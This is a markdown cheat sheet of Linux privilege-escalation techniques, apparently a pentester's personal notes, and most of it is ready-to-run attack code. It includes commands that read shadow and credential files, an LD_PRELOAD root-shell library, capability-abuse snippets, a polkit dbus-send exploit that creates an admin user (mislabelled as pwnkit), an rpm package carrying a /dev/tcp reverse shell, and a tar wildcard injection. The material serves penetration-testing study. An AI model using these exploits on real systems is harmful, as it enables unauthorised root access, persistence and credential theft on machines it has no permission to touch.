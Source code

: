 # Linux

# Linux Privilege Escalation

## Misconfiguration

- Find writable directories
`find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`
- Find writable directories in PATH
`IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;`
- Find writable files
`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- Find suid binaries
`find / -perm /4000 2>/dev/null`
- Find guid binaries
`find / -perm /2000 2>/dev/null`
- Find binaries with capabilities
`getcap -r / 2>/dev/null`
- Look for cronjob
`crontab -lcat /etc/crontab`
- Look for nfs exports
`cat /etc/exports`
- Find unmounted drives
`ls /dev 2>/dev/null | grep -i "sd"`
- Look for credentials in fstab
`grep -E "(user|username|login|pass|password|pw|credentials)[=:]" /etc/fstab /etc/mtab 2>/dev/null`
- Look for mounted drives
`cat /etc/fstab 2>/dev/null | grep -v "^#" | grep -Pv "\\W*\\#" 2>/dev/null`
- Find hidden files
`find / -type f -iname ".*" -ls 2>/dev/null`
- Look for backup files
`find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \\( -name "*backup*" -o -name "*\\.bak" -o -name "*\\.bck" -o -name "*\\.bk" \\) 2>/dev/null`
- Look for passwd and shadow files

```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null

```

## LD_PRELOAD

If `env_keep += LD_PRELOAD` in sudoers:

```
$ cat << EOF > /tmp/shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
EOF
$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ ls -al shell.so
$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/*****
# id
uid=0(root) gid=0(root) groups=0(root)

```

## Capabilities

### cap_setuid+ep

- perl

```
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh";

```

- python

```
import os
os.setuid(0)
os.system('/bin/bash')

```

### cap_chown

- python

```
import os
os.chown("/etc/shadow", 1000, 1000)

```

- ruby

```
require 'fileutils'
FileUtils.chown_R 'user', 'user', '/etc/shadow'

```

## Binaries

- Look inside binaries for exploit possibilities

```
strings /path/to/binary

```

> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder
> 

## Local exploits

### pwnkit (cve-2021-3560)

- Last vulnerable package (ubuntu) : 0.105-26ubuntu1
- Manual exploit (create attacker user with sudo rights)

```
# Create the user
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
# Create a password
openssl passwd -6 mynewpassword
# Set the password
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!

```

### Overwrite file with symlink

Scenario : if root write a file in a folder for which you have write permission, it's possible to overwrite a file only root can write by creating a symlink to the target file.
Example : [https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup](https://0xdedinfosec.vercel.app/posts/hackthebox-timing-writeup)

```
# lowpriv can download a file as root via sudo to his home directory.
# create a symlink to /root/.ssh/authorized_keys
# on attack machine, serve a public key named authorized_keys
# download the file as root which will overwrite the link target
ln -s /root/.ssh/authorized_keys ~/.ssh/authorized_keys
sudo ....... (download authorized_keys > /root/.ssh/)

```

### yum

- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:

```
# Create a script with reverse shell commands
# root.sh:
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install <http://0.0.0.0:8000/root-1.0-1.noarch.rpm>

```

### nfs

- Exploit rootsquash

```
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)

```

### tar

- Exploit tar with wildcard injection

```
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
# Wait for tar to run as root

```

### pkexec

See this writeup for THM's road
[https://wiki.thehacker.nz/docs/thm-writeups/road-medium/](https://wiki.thehacker.nz/docs/thm-writeups/road-medium/)

## Shell escape sequence

[Escape Sequences](Linux%20aa8bad6ec9cf469eb33c04a049630f95/Escape%20Sequences%20a85c1c0e2e9b46a9a77fb2dab42f3ba4.csv)

## Tools

- [https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh)
- [https://github.com/sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)

## Guides

- [https://book.hacktricks.xyz/linux-unix/privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks)
- [https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Linux - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://gtfobins.github.io/](https://gtfobins.github.io/)
- [https://tbhaxor.com/exploiting-linux-capabilities-part-3/](https://tbhaxor.com/exploiting-linux-capabilities-part-3/)

## Writeups

- [https://blog.tryhackme.com/skynet-writeup/](https://blog.tryhackme.com/skynet-writeup/)
- [https://s1gh.sh/tryhackme-wonderland/](https://s1gh.sh/tryhackme-wonderland/)